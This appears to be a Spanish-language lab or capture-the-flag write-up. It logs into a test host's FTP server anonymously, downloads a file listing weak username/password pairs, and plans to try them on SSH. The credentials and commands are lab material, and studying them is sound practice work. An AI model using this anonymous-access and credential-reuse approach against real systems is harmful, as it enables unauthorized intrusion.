

#en escaneo de nmap se ve que existe usuario Anonymous sin log

#tambien arroja directorio pub
ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
#Realizo ls para buscar archivos
ftp> ls
229 Entering Extended Passive Mode (|||40002|)
150 Here comes the directory listing.
drwxr-xr-x 1 65534 65534 4096 Nov 27 2025 pub
226 Directory send OK.
ftp>
#cambio de directorio a pub
ftp> cd pub
250 Directory successfully changed.
#Realizo ls en pub para ver contenido
ftp> ls
229 Entering Extended Passive Mode (|||40060|)
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 81 Nov 27 2025 usuarios.txt
226 Directory send OK.
#se encuentra archivo usuarios.txt
#realizo transferencia de archivo usuarios.txt
ftp> get usuarios.txt
local: usuarios.txt remote: usuarios.txt
229 Entering Extended Passive Mode (|||40045|)
150 Opening BINARY mode data connection for usuarios.txt (81 bytes).
100% |************************************************| 81 45.35 KiB/s 00:00 ETA
226 Transfer complete.
81 bytes received in 00:00 (23.59 KiB/s)
#cierro ftp
#lectura de archivo usuarios.txt
└─$ cat usuarios.txt
carlos:qwerty
maria:123456
guest:guest
admin:admin
test:user123
alberto:admin123
#se descubren credenciales > se procede a probarlas en ssh